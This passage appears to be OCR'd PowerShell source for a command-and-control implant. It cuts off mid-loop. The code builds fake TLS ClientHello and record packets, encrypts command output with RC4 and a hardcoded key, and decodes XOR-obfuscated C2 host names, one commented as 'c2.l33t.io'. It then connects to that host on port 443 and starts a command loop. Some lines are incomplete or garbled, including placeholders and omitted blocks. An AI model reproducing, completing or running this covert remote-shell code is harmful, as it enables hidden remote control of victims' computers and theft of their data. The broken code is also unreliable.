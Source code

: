    return ,$output
}

# Packet builder for command output (TLS-like)
function Build-Packet {
    param ([string]$data)
    $dataBytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $key = @(0xf1,0x6e,0xcd,0xc6,0x79,0x4c,0x66,0xd1,0x02,0xf8,0x33,0xc4,0x86,0xe7,0xa4,0x35,0x8d,0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,0x0b,0x9e,0x53,0xa4,0xd3)
    $encData = RC4-Transform -key $key -data $dataBytes + @(0x02,0x04,0x06,0x08)
    $lenBytes = [BitConverter]::GetBytes([int16]$encData.Length)
    [Array]::Reverse($lenBytes)
    return @(0x17, 0x03, 0x03) + $lenBytes + $encData
}

# Build initial ClientHello (TLS spoof)
function Build-ClientHello {
    $host = Decrypt-XOR @(168,187,172,183,184,167,240,186,171,169,176,177,176,186,187,172,240,189,177,179) 222
    $hostBytes = [System.Text.Encoding]::ASCII.GetBytes($host)
    $hostLen = [BitConverter]::GetBytes([UInt16]$hostBytes.Length)
    [Array]::Reverse($hostLen)
    $payload = @(0x00) + $hostLen + $hostBytes
    $length = [BitConverter]::GetBytes([UInt16]$payload.Length)
    [Array]::Reverse($length)
    $finalPayload = @(0x00,0x00) + $length + $payload

    # + huge TLS extensions block omitted for brevity
    # Return the whole thing (mimics TLS ClientHello)
    return ,@(0x16,0x03,0x01) + ... + $finalPayload  # Real code builds this
}

# Connect to C2
$host = Decrypt-XOR @(5,7,25,2,25,3,15,25,5,7,7) 55  # "c2.l33t.io"
$port = 443
$tcpClient = New-Object System.Net.Sockets.TcpClient
$tcpClient.Connect($host, $port)
$stream = $tcpClient.GetStream()

# Send handshake
$hello = Build-ClientHello
$stream.Write($hello, 0, $hello.Length)

# Read dummy response
$buffer = New-Object byte[] 16384
$stream.Read($buffer, 0, $buffer.Length) | Out-Null

# Command loop
while ($true) {
    $buffer = New-Object byte[] 16384
    try {
        $bytesRead = $stream.Read($buffer, 0, 16384)
    } catch {
        break